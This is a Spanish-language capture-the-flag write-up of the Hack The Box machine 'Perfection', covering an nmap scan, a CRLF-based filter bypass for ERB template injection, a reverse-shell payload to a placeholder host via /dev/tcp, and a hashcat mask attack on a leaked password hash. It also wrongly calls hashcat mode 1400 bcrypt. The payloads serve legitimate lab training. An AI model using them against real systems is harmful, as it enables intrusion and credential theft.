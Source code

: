 ```yaml
---
layout: single
title: Perfection - Hack The Box
excerpt: "Para resolver esta máquina, nos aprovechamos de la calculadora y de que podemos controlar el input, pudiendo llevar a cabo un SSTI, esto a pesar de estar ciertamente un poco sanitizado, bypaseamos esto con CRLF, logrando así ejecutar comandos para entablarnos una Reverse Shell, para posterior a ello escalar privilegios indagando en el sistema operativo, encontrando un correo para el usuario de sistema actual, dándonos una pista de cómo podría ser la contraseña, encontramos una DB sqlite3, con una tabla que posee la contraseña hasheada para algunos usuarios, aplicamos fuerza bruta al hash del usuario que estamos actualmente, esto con la pista del correo y obtenemos la contraseña correcta, pudiendo así convertirnos en Root gracias a que el usuario tenía todos los permisos."
date: 2024-6-1
classes: wide
header:
  teaser: /assets/images/htb-writeup-perfection/perfection_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - SSTI
  - CRLF
  - CRLF > RCE
  - hash cracking
  - hashcat cracking
  
---
```


![](/assets/images/htb-writeup-perfection/perfection_logo.png)

Para resolver esta máquina, nos aprovechamos de la calculadora y de que podemos controlar el input, pudiendo llevar a cabo un SSTI, esto a pesar de estar ciertamente un poco sanitizado, bypaseamos esto con CRLF, logrando así ejecutar comandos para entablarnos una Reverse Shell, para posterior a ello escalar privilegios indagando en el sistema operativo, encontrando un correo para el usuario de sistema actual, dándonos una pista de cómo podría ser la contraseña, encontramos una DB sqlite3, con una tabla que posee la contraseña hasheada para algunos usuarios, aplicamos fuerza bruta al hash del usuario que estamos actualmente, esto con la pista del correo y obtenemos la contraseña correcta, pudiendo así convertirnos en Root gracias a que el usuario tenía todos los permisos.

# PortScan
____

```bash
nmap -sCV -p22,80 10.10.11.253 

# Nmap 7.94SVN scan initiated Sat Jun  1 17:04:27 2024 as: nmap -sCV -p22,80 -oN targeted 10.10
Nmap scan report for 10.10.11.253
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  1 17:04:36 2024 -- 1 IP address (1 host up) scanned in 9.94 seconds
```


# Sitio Web
![](/assets/images/htb-writeup-perfection/Pasted image 20240601185515.png)

Vemos que a simple vista tiene 3 posibles directorios, empiezo a indagar en ellos... empezando por el **About**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601185607.png)

Viendo dos nombres del equipo, tanto de la desarrolladora como la profesora, que quizás me sirvan mas adelante, me los guardo... ahora entro a la **calculadora de nota.**

![](/assets/images/htb-writeup-perfection/Pasted image 20240601185748.png)

empiezo a poner inputs, respetando el máximo & tratar de llevar a cabo una ejecución de comando y no logro nada, decido usar **BurpSuite** para ver la **DATA** como se tramita & tratar poder ejecutar comandos, o intentarlo...

![](/assets/images/htb-writeup-perfection/Pasted image 20240601190554.png)

detectaba el **input malicioso**, intente **bypassearlo** de varias manera, no logre nada exitoso por un rato, pero finalmente...

descubrí lo que es el **CRLF**, que son secuencias de caracteres especiales en el protocolo **HTTP** para iniciar una nueva **línea**, pudiendo así crear una nueva línea así que empecé a probar payload típicos de **SSTI** contemplados en [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Solo me funcionaron lo que empiezan con **<%%>**, pero **URLencodeando** todo, debido al **CRLF** para nueva línea que esta representado como:_ **"%0a"**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601191905.png)
```bash
T%0a<%25%3d7*7%25>
```
![](/assets/images/htb-writeup-perfection/Pasted image 20240601191925.png)

esta haciendo la multiplicación, así que ahora busco payload's para llevar a cabo un **RCE** & obtener nuestra Reverse Shell.

Nos ponemos en escucha con **Netcat**:
```bash
nc -nlvp PORT
```

![](/assets/images/htb-writeup-perfection/Pasted image 20240601192558.png)

```bash
T%0a<%25%3dsystem("bash+-c+'bash+-i+>%26/dev/tcp/IP/PORT+0>%261'")%3b%25>
```

![](/assets/images/htb-writeup-perfection/Pasted image 20240601192731.png)

Y ganamos acceso a la maquina como **Susan**, ya quedaría darle **tratamiento a la TTY,** que sino sabes como [((HAZ CLICK AQUi))](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios

Empecé a indagar como **Susan** en el sistema, encontrando así el siguiente mail que recibió Susan.

 ![](/assets/images/htb-writeup-perfection/Pasted image 20240601193340.png)
 
básicamente, le estaban sugiriendo una contraseña, que empiece con el nombre, barra baja, el nombre al revés, barra baja números de 1 a 1 millón.

de primeras no me pareció interesante, seguí indagando...

descubrí este directorio, con esto:
![](/assets/images/htb-writeup-perfection/Pasted image 20240601193551.png)
una base de datos en **sqlite** formato 3, decidí conectarme a esta db, aunque ya podía ver los datos, pero no estaba seguro...

![](/assets/images/htb-writeup-perfection/Pasted image 20240601193834.png)

viendo así los usuarios & un **hash**, que seguramente sea la contraseña, tenemos una pista... que fue el correo que vimos anteriormente que recibió Susan, por lo que podemos intuir al menos los primeros caracteres de la contraseña, así que intento fuerza bruta con **Hashcat** en mi windows y con esta pista.

```bash
.\hashcat.exe -a 3 -m 1400 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d" 
```

**-a 3:** este parámetro indica que el ataque será de modo "mascara."

**-m 1400**: indica el modo del hash, en este caso bcrypt.

**-hash.txt:** aquí dentro esta el hash que vimos en la base de datos.

**-"susan_nasus_?d?d?d?d?d?d?d?d?d"** : indica el inicio de la posible contraseña con la pista del correo, que es el nombre normal, al revés, y luego 9 posibles números.

![](/assets/images/htb-writeup-perfection/cracking.png)

obteniendo así la que podría ser la contraseña para Susan, así que procedo a probar para ver los **SUDOERS**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601195051.png)

Puedo ejecutar como quien sea lo que sea, así que me convierto en **ROOT** ya sabiendo las credenciales de **Susan**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601195153.png)
